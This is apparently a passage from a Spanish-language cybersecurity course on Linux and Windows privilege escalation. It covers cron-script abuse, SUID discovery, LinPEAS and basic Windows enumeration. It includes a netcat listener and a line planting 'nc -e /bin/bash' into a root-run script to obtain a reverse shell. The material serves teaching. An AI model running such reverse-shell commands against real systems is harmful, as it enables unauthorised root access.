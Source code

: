 > En nuestra máquina iniciamos un oyente netcat:
> 
> 
> nc -lnvp <port>
> 
> En nuestro objetivo colocamos en el archivo anterior una conexión con nuestro oyente:
> 
> echo "nc -e /bin/bash <our_ip> <port> > cleanall.sh.
> 
> Cuando esto se ejecuta, tenemos nuestro shell raíz.

### **Abusar de SUID/GUID**

Esto es un poco más complicado, por lo que hay algunos conceptos teóricos de los que se debe hablar. Todo en Linux es un archivo con permisos.

![NoSQL14](https://github.com/4GeeksAcademy/cybersecurity-syllabus/blob/main/assets/NoSQL14.png?raw=true)

Este archivo tiene todos los permisos y podemos configurarlo con el comando chmod 777. Te preguntarás por qué 777, bueno, se trata de bits. Si piensa en estos permisos como bits 7, es la combinación de 4 (lectura), 2 (escritura) y 1 (ejecución). Entonces chmod 600 corresponde a rw -— — y chmod 764 corresponde a rwx-rw-r. Un SUID es un tipo de permiso de usuario que permite a los usuarios ejecutar un archivo con los permisos de un usuario específico. Aquellos archivos que tienen permisos SUID se ejecutan con privilegios más altos.

Bueno, ahora,  ¿cómo los encontramos? Bueno, usando el siguiente comando. find / -perm -u=s -type f 2>/dev/null

Ahora cada comando que tiene un SUID tiene un método de exploración diferente, por lo que no puedo ponerlos todos aquí. Pero hay muchos exploits en el increíble sitio web [https://gtfobins.github.io/](https://gtfobins.github.io/) .

### **LinPEAS**

LinPEAS es un script que busca automáticamente posibles rutas para escalar privilegios. El objetivo es descargar el script en la máquina de destino, otorgarle los permisos y ejecutarlo. Podemos obtener el script en [https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) .

## **Escalada de privilegios de Windows**

### **Enumeración inicial**

- **Enumeración del sistema**

> systeminfo
> 
> 
> systeminfo | findstr /B /C: "os name" /C: "os version" /C: "system type"

![NoSQL15](https://github.com/4GeeksAcademy/cybersecurity-syllabus/blob/main/assets/NoSQL15.png?raw=true)

> Hostname
